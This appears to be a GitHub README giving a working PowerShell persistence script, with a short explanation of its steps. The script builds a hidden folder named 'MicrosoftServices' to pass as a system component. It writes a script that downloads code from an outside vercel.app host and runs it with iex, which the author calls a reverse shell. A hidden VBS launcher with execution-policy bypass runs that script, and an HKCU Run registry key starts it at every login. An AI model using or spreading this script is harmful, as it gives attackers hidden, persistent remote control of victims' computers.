# Powershell commands 


## 1. Running the script on login

```
$documentsPath = [Environment]::GetFolderPath("MyDocuments");$folderPath = Join-Path -Path $documentsPath -ChildPath "MicrosoftServices";if(-not (Test-Path -Path $folderPath)){New-Item -Path $folderPath -ItemType Directory | Out-Null};
$xContent = @'
$r = iwr https://xyz.vercel.app/ -H @{'Authorization'='Bearer xyzxyz'}; iex $r.Content
'@;$xPath = Join-Path -Path $folderPath -ChildPath "x.ps1";
Set-Content -Path $xPath -Value $xContent;$yContent = @'
Set objShell = CreateObject("WScript.Shell")
objShell.Run "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File ""C:\Users\%USERNAME%\Documents\MicrosoftServices\x.ps1""", 0, False
'@;$yPath = Join-Path -Path $folderPath -ChildPath "y.vbs";
Set-Content -Path $yPath -Value $yContent;Set-ItemProperty -Path $folderPath -Name Attributes -Value ([System.IO.FileAttributes]::Hidden);Set-ItemProperty -Path $xPath -Name Attributes -Value ([System.IO.FileAttributes]::Hidden);Set-ItemProperty -Path $yPath -Name Attributes -Value ([System.IO.FileAttributes]::Hidden);$regPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run";$regName = "MicrosoftServices";$regValue = "wscript.exe ""$yPath""";if(-not (Get-ItemProperty -Path $regPath -Name $regName -ErrorAction SilentlyContinue)){New-ItemProperty -Path $regPath -Name $regName -Value $regValue -PropertyType String | Out-Null};Write-Host "1"
```
What this does:
- creating a hidden folder `MicrosoftServices` in the user's Documents folder (can be anywhere)
- adds a .ps1 script that contains the api call for the revershe Shell script
- adds a vbs script that runs the powershell script in the background
- creates a registry key in HKCU (on login), that runs the vbs file
